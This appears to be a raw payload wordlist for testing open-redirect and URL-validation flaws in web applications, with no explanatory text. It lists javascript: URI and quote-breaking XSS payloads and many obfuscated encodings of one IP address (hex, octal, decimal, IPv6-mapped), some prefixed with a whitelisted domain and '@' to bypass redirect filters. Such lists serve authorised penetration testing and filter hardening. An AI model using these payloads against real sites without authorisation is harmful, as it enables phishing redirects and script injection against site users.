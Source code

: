 /javascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
java%0d%0ascript%0d%0a:alert(0)
//google.com
https:google.com
//google%E3%80%82com
\/\/google.com/
/\/google.com/
//google%00.com
https://www.whitelisteddomain.tld/https://www.google.com/
";alert(0);//
javascript://www.whitelisteddomain.tld?%a0alert%281%29
http://0xd8.0x3a.0xd6.0xce
http://www.whitelisteddomain.tld@0xd8.0x3a.0xd6.0xce
http://3H6k7lIAiqjfNeN@0xd8.0x3a.0xd6.0xce
http://XY>.7d8T\205pZM@0xd8.0x3a.0xd6.0xce
http://0xd83ad6ce
http://www.whitelisteddomain.tld@0xd83ad6ce
http://3H6k7lIAiqjfNeN@0xd83ad6ce
http://XY>.7d8T\205pZM@0xd83ad6ce
http://3627734734
http://www.whitelisteddomain.tld@3627734734
http://3H6k7lIAiqjfNeN@3627734734
http://XY>.7d8T\205pZM@3627734734
http://472.314.470.462
http://www.whitelisteddomain.tld@472.314.470.462
http://3H6k7lIAiqjfNeN@472.314.470.462
http://XY>.7d8T\205pZM@472.314.470.462
http://0330.072.0326.0316
http://www.whitelisteddomain.tld@0330.072.0326.0316
http://3H6k7lIAiqjfNeN@0330.072.0326.0316
http://XY>.7d8T\205pZM@0330.072.0326.0316
http://00330.00072.0000326.00000316
http://www.whitelisteddomain.tld@00330.00072.0000326.00000316
http://3H6k7lIAiqjfNeN@00330.00072.0000326.00000316
http://XY>.7d8T\205pZM@00330.00072.0000326.00000316
http://[::216.58.214.206]
http://www.whitelisteddomain.tld@[::216.58.214.206]
http://3H6k7lIAiqjfNeN@[::216.58.214.206]
http://XY>.7d8T\205pZM@[::216.58.214.206]
http://[::ffff:216.58.214.206]
http://www.whitelisteddomain.tld@[::ffff:216.58.214.206]
http://3H6k7lIAiqjfNeN@[::ffff:216.58.214.206]
http://XY>.7d8T\205pZM@[::ffff:216.58.214.206]
http://0xd8.072.54990
http://www.whitelisteddomain.tld@0xd8.072.54990
http://3H6k7lIAiqjfNeN@0xd8.072.54990
http://XY>.7d8T\205pZM@0xd8.072.54990
http://0xd8.3856078
http://www.whitelisteddomain.tld@0xd8.3856078
http://3H6k7lIAiqjfNeN@0xd8.3856078
http://XY>.7d8T\205pZM@0xd8.3856078
http://00330.3856078
http://www.whitelisteddomain.tld@00330.3856078
http://3H6k7lIAiqjfNeN@00330.3856078
http://XY>.7d8T\205pZM@00330.3856078
http://00330.0x3a.54990
http://www.whitelisteddomain.tld@00330.0x3a.54990
http://3H6k7lIAiqjfNeN@00330.0x3a.54990